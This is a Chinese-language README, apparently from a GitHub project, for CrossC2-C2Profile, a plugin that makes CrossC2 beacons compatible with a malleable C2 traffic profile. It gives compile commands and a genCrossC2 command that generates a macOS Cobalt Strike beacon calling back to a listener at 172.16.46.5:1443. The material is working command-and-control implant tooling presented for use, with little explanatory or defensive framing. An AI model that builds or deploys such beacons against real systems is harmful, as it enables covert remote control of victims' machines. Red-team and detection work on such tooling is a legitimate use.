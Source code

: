 # CrossC2-C2Profile

# 介绍

CrossC2通信协议API实现，可兼容使用C2Profile`https://github.com/threatexpress/malleable-c2/blob/master/jquery-c2.4.0.profile`。

# 使用

gcc编译使用的环境要靠近执行beacon的机器环境


```bash
gcc c2profile.c -fPIC -shared -o CrossC2-C2Profile.so
```

命令具体参考`https://gloxec.github.io/CrossC2/zh_cn/usage/genCross.html`

```bash
./genCrossC2.MacOS 172.16.46.5 1443 cobaltstrike.beacon_keys CrossC2-C2Profile.so MacOS x64 ./macos
```

可以将profile中的其他编码去掉，只保留base64，也可以正常使用。

# 效果

![image-20210706115833758](images/README/image-20210706115833758.png)

![image-20210706114424430](images/README/image-20210706114424430.png)
